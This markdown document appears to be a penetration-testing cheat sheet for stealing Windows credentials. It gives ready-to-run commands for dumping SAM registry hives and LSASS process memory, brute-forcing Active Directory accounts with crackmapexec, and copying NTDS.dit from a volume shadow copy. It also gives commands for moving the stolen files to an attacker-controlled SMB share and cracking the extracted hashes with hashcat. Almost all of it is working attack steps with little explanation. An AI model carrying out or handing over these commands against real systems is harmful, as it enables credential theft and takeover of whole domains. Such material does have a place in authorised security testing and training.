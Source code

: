 ### Content
- [Transfer Files Technique](#transfer-files-technique)
- [Hash Crack Technique](#hash-crack-technique)
- [SAM Attacks](#sam-attacks)
- [LSASS Attacks](#lsass-attacks)
- [Active Directory & NTDS.dit Attacks](#active-directory-&-ntds.dit-attacks)
---
##### Transfer Files Technique
Transfer files from the target to the attacker machine using [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).
1. Create a Share with smbserver.py on the attacker host
	``` bash
	sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <shareName> /home/bob/Documents/
	```
2. Move files on the target host to the created share
	``` PowerShell
	C:\> move <FileName> \\<IP>\<shareName>
	```
---
##### Hash Crack Technique
Crack hashes with hashcat. [supported hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)
1. Add NT hashes into text file with each hash in a single line without any additions.
2. Run hashcat against the NT hashes.
	``` bash
	sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
	```
---
## SAM Attacks
Dumping the local SAM database from a compromised host. (**Local admin privileges required**)
- Three registry hives required:
	- `hklm\sam` Contains the hashes associated with local account passwords.
	- `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database.
	- `hklm\security` Contains cached credentials for domain accounts.
- Save the required hives:
	``` PowerShell
	C:\WINDOWS\system32> reg.exe save hklm\sam C:\Windows\Temp\sam.save  
	C:\WINDOWS\system32> reg.exe save hklm\system C:\Windows\Temp\system.save  
	C:\WINDOWS\system32> reg.exe save hklm\security C:\Windows\Temp\security.save
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the three hives
- Dump Hashes with Impacket's secretsdump.py
	``` bash
	python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <UserName> -p <Password> --sam`

---
## LSASS Attacks
Pulling hashes from memory by dumping the `lsass.exe` process memory.
- In case we have UI access, dump the process memory using the task manager. `lsass.DMP` file created in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

<img src="https://private-user-images.githubusercontent.com/115187674/394169491-6912e7fd-d4d8-4790-81d4-f6927060a68c.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MzM4MTYxNTMsIm5iZiI6MTczMzgxNTg1MywicGF0aCI6Ii8xMTUxODc2NzQvMzk0MTY5NDkxLTY5MTJlN2ZkLWQ0ZDgtNDc5MC04MWQ0LWY2OTI3MDYwYTY4Yy5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQxMjEwJTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MTIxMFQwNzMwNTNaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1iZTM3ZTQ5NDFjYjU4ZWM4NDRjMTdmNmZhNThkNmRiNDJjNTI2NzRhMjU2NGNlZjk5NjAxNzM1NzI5NDg4MjI0JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.My2LUJTdvLPIvItX8iuo6loG0BIVgQtRxY0R6h_QhKw">

- In case we have only command-line access, use [Rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32) & Comsvcs.dll.
	- Find the process PID with `tasklist | findstr lsass.exe`
	``` PowerShell
	rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the process dump.
- Use [Pypykatz](https://github.com/skelsec/pypykatz/blob/main/pypykatz/pypykatz.py) to extract hashes.
	``` bash
	pypykatz lsa minidump /home/peter/Documents/lsass.dmp
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <Username> -p <Password> --lsa`

---
## Active Directory & NTDS.dit Attacks
Extracting hashes from the NTDS database (ntds.dit) on a **Domain Controller**.
- Lunch Dictionary Attack against AD account to discover working credentials using crackmapexec.
	``` bash
	crackmapexec smb <IP> -u <UserName_wordlist> -p /usr/share/wordlists/fasttrack.txt
	```
- Login to the system using `evil-winrm` with the creds we captured from above
	``` bash
	evil-winrm -i <IP>  -u <UserName> -p '<Password>'
	```

- With access to a domain controller’s file system attacker should exfiltrate:
	- `C:\Windows\NTDS\NTDS.dit`
	- `HKEY_LOCAL_MACHINE\SYSTEM` registry hive, which is required to obtain the `Boot Key` for decrypting `ntds.dit`.

- Attacker needs local admin or Domain Admin privilege, check local priv using `net localgroup` and domain priv using `net user <UserName>`.
- We can't copy the ntds.dit directly as it's always being used by the domain controller, So we will create a shadow copy for the entire drive.

- Use vssadmin to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (VSS).
	``` Powershell
	*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
	```
- Copy `NTDS.dit` and `HKLM\SYSTEM` from the shadow volume.
	``` Powershell
	*Evil-WinRM* PS C:> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
	*Evil-WinRM* PS C:> cmd.exe /c reg SAVE HKLM\SYSTEM C:\temp\SYS
	```
- Transfer `NTDS.dit` and `HKLM\SYSTEM` to the attacker host, try [Transfer Files Technique](#transfer-files-technique).
	``` powershell
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\ntds.dit \\<IP>\CompData 
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\SYS \\<IP>\CompData
	```
- Extract hashes from `NTDS.dit` can be done with many ways:
	- Using [DSInternals](https://www.dsinternals.com/en/downloads/) PowerShell module which provides the `Get-BootKey` and `Get-ADDBAccount`.
		``` Powershell
		PS> $Key = Get-BootKey -SystemHiveFilePath 'Path to the /registry/SYSTEM hive'
		PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Out-File Hashdump.txt
		# To create a ready list for cracking
		PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Format-Custom -View HashcatNT
		# If clean state database error occurred, run the following command
		PS> ESENTUTL /p 'NTDS.dit' /!10240 /8 /o
		```
	- [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) or [gosecretsdump](https://github.com/c-sto/gosecretsdump).
		``` bash
		secretsdump -ntds ntds.dit.save -system SYS LOCAL
		gosecretsdump -ntds ntds.dit.save -system SYS
		```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> -u <UserName> -p <Password> --ntds`
